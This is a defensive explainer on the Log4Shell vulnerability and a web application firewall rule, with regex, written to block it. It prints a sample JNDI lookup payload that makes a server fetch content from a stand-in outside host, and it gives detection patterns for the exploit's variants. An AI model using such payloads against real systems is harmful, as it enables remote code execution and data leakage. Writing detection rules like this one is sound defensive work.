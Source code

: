 # Explainer: Log4Shell and creation of a custom rule

When the log4shell exploit came out in the fall of 2021, there was no immediate mitigation available in WAF available.  Creating a custom rule to protect against the 0day vulnerability was what was required.

Some weeks later, the Azure WAF Product Team created custom rule to provide protection against this.

## Payload

A good explainer can be found [here](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/).  At its core, JNDI "Java Naming and Directory Interface" is a way of fetching data from a remote resource and deserializing it into Java objects, which can contain executable code.

The vulnerability is similar to so many of the others we've talked about:  Poor input validation.  Just like with SQL Injections.  

The vulnerability here is that the log4j open source library uses a feature called "lookups" which are specially structured strings, which can log environment-specific data.
The log4j library didn't disallow certain types of lookups, and so allowed the full range of JNDI lookups, which include grabbing data from a remote server, and potentially executing it.  Essentially, a specially structured string can cause your application server to grab content from a remote server, and potentially do something with it.  This can be either something like downloading malware, or leaking system data by embedding it in HTTP requests which are logged on the target malicious server.

Basically, sample payloads are formatted like below using the syntax for JNDI lookups

${jndi:ldap://myserver.com/hello}

If this string appears *anywhere* which ends up getting logged with the log4j library, it'll cause the server to call out to myserver.com and the /hello application, download the content and de-serialize into an in-memory object.

## Rule Code

The rule code produced is below by Microsoft's WAF developers:

```
SecRule ARGS|ARGS_NAMES|REQUEST_COOKIES|!REQUEST_COOKIES:/__utm/|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@* \
    "@rx (\$\{jndi\:(?:ldap|ldaps|dns|rmi|nis|nds|corba|iiop)\:\/\/|\$\{[jndilap:]*\$\{(?:lower:|upper:|date:|env:\w*:-|sys:\w*:-|::-)[jndilap:]*\})" \
    "id:800100,\
    phase:2,\
    block,\
    t:none,t:lowercase,\
    log,\
    msg:'Remote Command Execution: Log4j CVE-2021-44228',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}',\
    tag:'application-multi',\
    tag:'language-java',\
    tag:'platform-multi',\
    tag:'attack-rce',\
    tag:'OWASP_CRS/WEB_ATTACK/COMMAND_INJECTION',\
    tag:'WASCTC/WASC-31',\
    tag:'OWASP_TOP_10/A1',\
    tag:'PCI/6.5.2',\
    tag:'paranoia-level/2',\
    ver:'OWASP_CRS/3.2.0',\
    severity:'CRITICAL',\
    setvar:'tx.rce_score=+%{tx.critical_anomaly_score}',\
    setvar:'tx.anomaly_score_pl2=+%{tx.critical_anomaly_score}'"
```

We can see a few things:

`ARGS|ARGS_NAMES|REQUEST_COOKIES|!REQUEST_COOKIES:/__utm/|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*`

- Targets all of the arguments (uri, cookie, forms, etc.), request body, cookies, cookies which aren't "utm" cookies ([explainer here](https://www.morevisibility.com/blogs/analytics/from-utma-to-utmz-google-analytics-cookies.html)), and any XML elements.

`(\$\{jndi\:(?:ldap|ldaps|dns|rmi|nis|nds|corba|iiop)\:\/\/|\$\{[jndilap:]*\$\{(?:lower:|upper:|date:|env:\w*:-|sys:\w*:-|::-)[jndilap:]*\})`

This regex first looks for the JDNI resource prefixes, "jndi" or "jndilap", then checks to see if one of the resource types is used for those, which are protocols (ldap, dns, rmi, etc.) which can trigger remote requests or functions (lower, upper, env) which can leak data by embedding it into a remote call.

https://regexper.com/#%28%5C%24%5C%7Bjndi%5C%3A%28%3F%3Aldap%7Cldaps%7Cdns%7Crmi%7Cnis%7Cnds%7Ccorba%7Ciiop%29%5C%3A%5C%2F%5C%2F%7C%5C%24%5C%7B%5Bjndilap%3A%5D*%5C%24%5C%7B%28%3F%3Alower%3A%7Cupper%3A%7Cdate%3A%7Cenv%3A%5Cw*%3A-%7Csys%3A%5Cw*%3A-%7C%3A%3A-%29%5Bjndilap%3A%5D*%5C%7D%29
